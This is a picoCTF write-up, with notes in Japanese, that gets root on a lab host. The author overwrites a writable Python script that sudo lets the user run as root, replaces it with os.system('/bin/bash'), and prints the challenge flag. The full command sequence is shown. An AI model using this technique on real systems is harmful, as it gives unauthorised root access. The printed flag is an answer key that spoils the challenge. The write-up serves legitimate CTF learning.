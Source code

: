 # hijacking:bynary Medium  
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
ssh -p 56840 picoctf@saturn.picoctf.net  
The authenticity of host '[saturn.picoctf.net]:56840 ([13.59.203.175]:56840)'n't be established.  
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.  
This host key is known by the following other names/addresses:  
    ~/.ssh/known_hosts:32: [hashed name]  
    ~/.ssh/known_hosts:35: [hashed name]  
    ~/.ssh/known_hosts:36: [hashed name]  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[saturn.picoctf.net]:56840' (ED25519) to the list of known hosts.  
picoctf@saturn.picoctf.net's password:   
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)  

 * Documentation:  https://help.ubuntu.com  
 * Management:     https://landscape.canonical.com  
 * Support:        https://ubuntu.com/advantage  

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.  

To restore this content, you can run the 'unminimize' command.  

picoctf@challenge:~$ ls -la  
total 16  
drwxr-xr-x 1 picoctf picoctf   20 Jul  6 06:39 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py  


The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.  

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.  

picoctf@challenge:~$ sudo -l  
Matching Defaults entries for picoctf on challenge:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  

User picoctf may run the following commands on challenge:  
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py  

picoctf@challenge:~$ cat .server.py  
import base64  
import os  
import socket  
ip = 'picoctf.org'  
response = os.system("ping -c 1 " + ip)  
#saving ping details to a variable  
host_info = socket.gethostbyaddr(ip)   
#getting IP from a domaine  
host_info_to_str = str(host_info[2])  
host_info = base64.b64encode(host_info_to_str.encode('ascii'))  
print("Hello, this is a part of information gathering",'Host: ', host_info)  
picoctf@challenge:~$ vi .server.py  
picoctf@challenge:~$ cat .server.py  
import os  
os.system("/bin/bash")  

picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py  
root@challenge:/home/picoctf# ls -la  
total 24  
drwxr-xr-x 1 picoctf picoctf   73 Jul  6 06:42 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 picoctf picoctf   33 Jul  6 06:42 .server.py  
-rw-r--r-- 1 picoctf picoctf  375 Feb  7  2024 .server.py~  
-rw------- 1 picoctf picoctf  812 Jul  6 06:42 .viminfo  
root@challenge:/home/picoctf# cd /  
root@challenge:/# ls -la  
total 0  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 .  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 ..  
-rwxr-xr-x   1 root   root      0 Jul  6 06:38 .dockerenv  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin  
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot  
d---------   1 root   root      6 Sep 26  2024 challenge  
drwxr-xr-x   5 root   root    340 Jul  6 06:38 dev  
drwxr-xr-x   1 root   root     66 Jul  6 06:38 etc  
drwxr-xr-x   1 root   root     21 Aug  4  2023 home  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64  
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32  
drwxr-xr-x   2 root   root      6 Mar  8  2023 media  
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt  
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt  
dr-xr-xr-x 241 nobody nogroup   0 Jul  6 06:38 proc  
drwx------   1 root   root     23 Sep 26  2024 root  
drwxr-xr-x   1 root   root     54 Jul  6 06:39 run  
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin  
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv  
dr-xr-xr-x  13 nobody nogroup   0 Jul  6 06:38 sys  
drwxrwxrwt   1 root   root      6 Sep 26  2024 tmp  
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr  
drwxr-xr-x   1 root   root     17 Mar  8  2023 var  
root@challenge:/# cd root  
root@challenge:~# ls -la  
drwx------ 1 root root   23 Sep 26  2024 .  
drwxr-xr-x 1 root root   51 Jul  6 06:38 ..  
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc  
-rw-r--r-- 1 root root   43 Sep 26  2024 .flag.txt  
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile  
root@challenge:~# cat .flag.txt  
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}  

# 考えたこと  
ユーザ権限をルートへの昇格を狙う。  
SUDO -lをしたところ/usr/bin/python3 /home/picoctf/.server.pyはパスワードがいらないことがわかった。  
なので、次に.server.pyを編集する。（.server.pyに書き込み権限があるため実行できる）  
そして、SUDOで/usr/bin/python3 /home/picoctf/.server.pyを実行するとルートへ昇格できた。  
最後にルートディレクトリのFLAG.txtをcatコマンドで実行するとFLAG.txtが獲得できた  

# ポイント  
sudoでpyton3プロセスが起動するー＞python3がルート権限で実行される。  
その後、.server.pyが実行されると内部のos．sytem（"/bin/bash"）が実行される。  
よって、ルート権限をもつbashプロセスがターミナルに表示される。  
＊pyton3のルート権限を引き継いでいるだけなのでos．sytem（"/bin/bash"）を実行すると権限が昇格するわけではない  